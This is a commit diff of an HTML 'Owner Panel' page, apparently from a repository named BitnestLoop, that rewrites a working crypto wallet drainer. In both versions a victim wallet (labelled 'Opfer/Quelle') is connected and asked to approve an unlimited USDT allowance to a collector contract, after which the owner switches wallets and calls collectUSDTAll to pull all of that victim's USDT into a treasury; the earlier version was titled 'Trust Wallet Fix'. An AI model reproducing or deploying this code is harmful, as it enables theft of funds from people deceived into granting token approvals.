

Before and after one commit to bitnestmaster/BitnestLoop, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,176 +3,105 @@
 <head>
   <meta charset="UTF-8"/>
   <meta name="viewport" content="width=device-width, initial-scale=1"/>
-  <title>Owner Panel – Trust Wallet Fix</title>
+  <title>Owner Panel – BSC Collector</title>
   <style>
-    body{ font-family: 'Segoe UI', sans-serif; background:#0f172a; color:#fff; display:flex; min-height:100vh; justify-content:center; align-items:center; margin:0; padding:16px; }
-    .box{ background:#020617; padding:25px; border-radius:16px; width:420px; box-shadow:0 20px 50px rgba(0,0,0,.5); border: 1px solid #1e293b; }
-    h2{ margin-top:0; text-align: center; color: #f8fafc; }
-    .step { background: #1e293b; padding: 15px; border-radius: 10px; margin-bottom: 15px; border-left: 4px solid #3b82f6; }
-    .step-title { font-weight: bold; font-size: 12px; color: #3b82f6; text-transform: uppercase; margin-bottom: 10px; }
-    select, button { width: 100%; padding: 12px; border-radius: 8px; border: none; font-weight: bold; cursor: pointer; transition: 0.2s; }
-    select { background: #334155; color: white; margin-bottom: 10px; }
-    button { background:#22c55e; color: white; margin-top: 8px; }
-    button:hover { opacity: 0.9; }
-    button.secondary { background:#475569; }
-    button.warning { background: #f59e0b; }
-    .mono { font-family: monospace; font-size:11px; background: #000; padding: 6px; border-radius: 4px; display: block; color: #10b981; word-break: break-all; margin-top: 5px; }
-    #status { margin-top:15px; padding: 12px; border-radius: 8px; font-size: 13px; text-align: center; font-weight: 500; }
-    .status-info { background: rgba(59, 130, 246, 0.1); color: #60a5fa; }
-    .status-err { background: rgba(239, 68, 68, 0.2); color: #f87171; }
-    .status-ok { background: rgba(34, 197, 94, 0.2); color: #4ade80; }
+    body{ font-family: 'Segoe UI', Arial, sans-serif; background:#0f172a; color:#fff; display:flex; min-height:100vh; justify-content:center; align-items:center; margin:0; }
+    .box{ background:#020617; padding:25px; border-radius:16px; width:380px; box-shadow:0 10px 30px rgba(0,0,0,.5); border: 1px solid #1e293b; }
+    h2{ margin-top:0; color: #f8fafc; font-size: 20px; text-align: center; }
+    .step { background: #1e293b; padding: 12px; border-radius: 8px; margin-bottom: 15px; border-left: 4px solid #3b82f6; }
+    .step-title { font-size: 12px; font-weight: bold; text-transform: uppercase; color: #94a3b8; margin-bottom: 8px; }
+    button { background:#22c55e; border:none; padding:12px; width:100%; font-size:14px; font-weight:bold; cursor:pointer; border-radius:8px; color: white; transition: 0.2s; }
+    button:hover { background: #16a34a; }
+    button.secondary { background:#334155; margin-bottom: 8px; }
+    button.secondary:hover { background: #475569; }
+    button.danger { background: #ef4444; margin-top: 10px; }
+    .mono { font-family: monospace; font-size:11px; word-break:break-all; background: #000; padding: 5px; border-radius: 4px; display: block; margin-top: 5px; color: #10b981; }
+    #status { margin-top:15px; padding: 10px; border-radius: 6px; background: #1e293b; font-size: 13px; text-align: center; min-height: 20px; border: 1px dashed #334155; }
+    .info-text { font-size: 11px; color: #94a3b8; margin-top: 10px; line-height: 1.4; }
   </style>
 </head>
 <body>
 
 <div class="box">
-  <h2>Owner Panel Mobile</h2>
+  <h2>Admin Collector Panel</h2>
 
   <div class="step">
-    <div class="step-title">1. Token & Netzwerk</div>
-    <select id="tokenType" onchange="checkBalance()">
-      <option value="USDT">USDT (Tether)</option>
-      <option value="USDC">USDC (Circle)</option>
-    </select>
-    <div id="netInfo" style="font-size:10px; opacity:0.6;">Netzwerk: Prüfen...</div>
+    <div class="step-title">Phase 1: Wallet A (Opfer/Quelle)</div>
+    <button class="secondary" onclick="connectWalletA()">1. Wallet A verbinden</button>
+    <div class="mono" id="walletAAddress">Nicht verbunden</div>
+    <button style="margin-top:8px" onclick="approveUSDT()">2. USDT Freigabe (Approve)</button>
   </div>
 
-  <div class="step">
-    <div class="step-title">2. Quelle (Wallet A)</div>
-    <button class="secondary" onclick="connectA()">Wallet verbinden</button>
-    <span class="mono" id="addrA">Nicht verbunden</span>
-    <div id="balanceVal" style="font-size:12px; margin-top:5px; color:#34d399; font-weight:bold; display:none;">Guthaben: 0.00</div>
+  <div class="step" style="border-left-color: #eab308;">
+    <div class="step-title">Phase 2: Owner (Du)</div>
+    <p class="info-text">Jetzt in Metamask zur <b>Owner-Wallet</b> wechseln!</p>
+    <button class="danger" onclick="collectAll()">3. USDT komplett ziehen</button>
   </div>
 
-  <div class="step">
-    <div class="step-title">3. Berechtigung</div>
-    <button class="warning" onclick="approveToken()">Allowance freigeben</button>
+  <div id="status">Bereit...</div>
+
+  <div class="info-text" style="text-align:center;">
+    Treasury: <span style="color: #60a5fa;">0x22Cc...95a7</span><br>
+    Contract: <span style="color: #60a5fa;">0x61bF...E26B</span>
   </div>
-
-  <div class="step" style="border-left-color: #22c55e;">
-    <div class="step-title">4. Transfer</div>
-    <button onclick="executeCollect()">Einzug starten</button>
-  </div>
-
-  <div id="status" class="status-info">Warte auf Verbindung...</div>
 </div>
 
 <script src="https://cdn.jsdelivr.net/npm/ethers@6.10.0/dist/ethers.min.js"></script>
 <script>
-  const COLLECTOR_ADDR = "0x61bF4DAE189C62344Df1E9802B5338C196d1E26B";
-  const TOKEN_MAP = {
-    USDT: "0xdAC17F958D2ee523a2206206994597C13D831ec7",
-    USDC: "0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48"
-  };
+  const COLLECTOR_ADDRESS = "0x61bF4DAE189C62344Df1E9802B5338C196d1E26B";
+  const USDT_ADDRESS = "0x55d398326f99059fF775485246999027B3197955";
 
-  const ERC20_ABI = [
-    "function approve(address spender, uint256 amount) public returns (bool)",
-    "function balanceOf(address account) public view returns (uint256)",
-    "function decimals() public view returns (uint8)"
-  ];
-  const COLLECTOR_ABI = ["function collectUSDTAll(address from) external"];
+  const collectorAbi = ["function collectUSDTAll(address from) external"];
+  const erc20Abi = ["function approve(address spender, uint256 amount) external returns (bool)"];
 
   let walletA = null;
 
-  function log(msg, type='info') {
-    const s = document.getElementById("status");
-    s.innerText = msg;
-    s.className = "status-" + type;
+  function setStatus(msg) { document.getElementById("status").innerText = msg; }
+
+  async function connectWalletA() {
+    try {
+      if (!window.ethereum) return alert("Bitte Metamask installieren");
+      const provider = new ethers.BrowserProvider(window.ethereum);
+      const accounts = await provider.send("eth_requestAccounts", []);
+      walletA = accounts[0];
+      document.getElementById("walletAAddress").innerText = walletA;
+      setStatus("✅ Wallet A verbunden");
+    } catch (e) { setStatus("❌ Verbindung abgelehnt"); }
   }
 
-  async function checkNetwork() {
-    if (!window.ethereum) return;
-    const provider = new ethers.BrowserProvider(window.ethereum);
-    const net = await provider.getNetwork();
-    const info = document.getElementById("netInfo");
-    // Ethereum Mainnet ChainId ist 1
-    if (net.chainId === 1n) {
-      info.innerText = "Netzwerk: ✅ Ethereum Mainnet";
-      info.style.color = "#4ade80";
-    } else {
-      info.innerText = "Netzwerk: ⚠️ Falsches Netz (Bitte ETH wählen)";
-      info.style.color = "#f87171";
+  async function approveUSDT() {
+    try {
+      if (!walletA) return setStatus("❌ Zuerst Schritt 1");
+      const provider = new ethers.BrowserProvider(window.ethereum);
+      const signer = await provider.getSigner();
+      const contract = new ethers.Contract(USDT_ADDRESS, erc20Abi, signer);
+
+      setStatus("Bestätige Approve in Wallet A...");
+      const tx = await contract.approve(COLLECTOR_ADDRESS, ethers.MaxUint256);
+      await tx.wait();
+      setStatus("✅ Freigabe erteilt! Jetzt Wallet wechseln.");
+    } catch (e) { setStatus("❌ Approve fehlgeschlagen"); }
+  }
+
+  async function collectAll() {
+    try {
+      if (!walletA) return setStatus("❌ Wallet A Adresse fehlt");
+      const provider = new ethers.BrowserProvider(window.ethereum);
+      const signer = await provider.getSigner();
+
+      const contract = new ethers.Contract(COLLECTOR_ADDRESS, collectorAbi, signer);
+      setStatus("Sende Collect-Befehl...");
+
+      const tx = await contract.collectUSDTAll(walletA);
+      setStatus("⌛ Transaktion läuft...");
+      await tx.wait();
+
+      setStatus("🎉 Erfolg! USDT sind in der Treasury.");
+    } catch (e) {
+      console.error(e);
+      setStatus("❌ Fehler: " + (e.reason || "Bist du der Owner?"));
     }
   }
-
-  async function checkBalance() {
-    if(!walletA) return;
-    try {
-      const provider = new ethers.BrowserProvider(window.ethereum);
-      const symbol = document.getElementById("tokenType").value;
-      const contract = new ethers.Contract(TOKEN_MAP[symbol], ERC20_ABI, provider);
-      const bal = await contract.balanceOf(walletA);
-      const dec = await contract.decimals();
-      const formatted = ethers.formatUnits(bal, dec);
-      const display = document.getElementById("balanceVal");
-      display.innerText = "Guthaben: " + parseFloat(formatted).toFixed(2) + " " + symbol;
-      display.style.display = "block";
-    } catch(e) { console.error(e); }
-  }
-
-  async function connectA() {
-    if(!window.ethereum) {
-      log("❌ Bitte im Trust Wallet Browser öffnen", "err");
-      return;
-    }
-    try {
-      log("Verbindung wird angefragt...");
-      const provider = new ethers.BrowserProvider(window.ethereum);
-
-      // Trust Wallet spezifischer Fix: Erzwingt das Popup
-      await window.ethereum.request({ method: 'eth_requestAccounts' });
-
-      const signer = await provider.getSigner();
-      walletA = await signer.getAddress();
-
-      document.getElementById("addrA").innerText = walletA;
-      await checkNetwork();
-      await checkBalance();
-      log("✅ Verbunden", "ok");
-    } catch(e) {
-      console.error(e);
-      log("❌ Verbindung fehlgeschlagen", "err");
-    }
-  }
-
-  async function approveToken() {
-    if(!walletA) return log("❌ Erst verbinden!", "err");
-    try {
-      const provider = new ethers.BrowserProvider(window.ethereum);
-      const signer = await provider.getSigner();
-      const symbol = document.getElementById("tokenType").value;
-      const token = new ethers.Contract(TOKEN_MAP[symbol], ERC20_ABI, signer);
-
-      log(`Freigabe für ${symbol} bestätigen...`);
-      const tx = await token.approve(COLLECTOR_ADDR, ethers.MaxUint256);
-      log("Warte auf Bestätigung...");
-      await tx.wait();
-      log("✅ Freigabe erfolgreich!", "ok");
-    } catch(e) { log("❌ Freigabe abgelehnt", "err"); }
-  }
-
-  async function executeCollect() {
-    if(!walletA) return log("❌ Keine Wallet", "err");
-    try {
-      const provider = new ethers.BrowserProvider(window.ethereum);
-      const signer = await provider.getSigner();
-      const current = await signer.getAddress();
-
-      if(current.toLowerCase() === walletA.toLowerCase()) {
-        return log("⚠️ Zu OWNER-Wallet wechseln!", "err");
-      }
-
-      const collector = new ethers.Contract(COLLECTOR_ADDR, COLLECTOR_ABI, signer);
-      log("Sende Transaktion...");
-      const tx = await collector.collectUSDTAll(walletA);
-      await tx.wait();
-      log("✅ Transfer erfolgreich!", "ok");
-      await checkBalance();
-    } catch(e) { log("❌ Fehler beim Transfer", "err"); }
-  }
-
-  // Initialer Check
-  if(window.ethereum) checkNetwork();
 </script>
 </body>
 </html>
```
